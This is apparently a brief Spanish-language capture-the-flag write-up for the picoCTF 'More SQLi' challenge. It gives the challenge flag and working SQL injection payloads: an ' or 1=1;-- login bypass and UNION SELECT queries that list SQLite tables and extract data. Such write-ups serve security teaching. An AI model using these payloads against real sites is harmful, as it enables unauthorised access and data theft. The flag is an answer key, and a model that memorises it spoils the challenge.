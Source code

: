 # Retos picoCTF

# Level More SQLi

## Objetivo
Can you find the flag on this website.
Try to find the flag here.

## Solucion
picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_e3e46aae}
Primero ingreso con 'admin' y 'admin' para ver que pasa, al hacerno esto nos da una pista que podr`iamos usar **'or 1=1;--** para ingresar.

Efectivamente funciono.

123' UNION SELECT name, sql, null from sqlite_master;--

Ingresamos eso en el campo de texto para hacer una busqueda y nos dice que est`a la bandera, ahora usamos **123' UNION SELECT flag, null, null from more_table;--** para buscar la bandera.

## Referencias


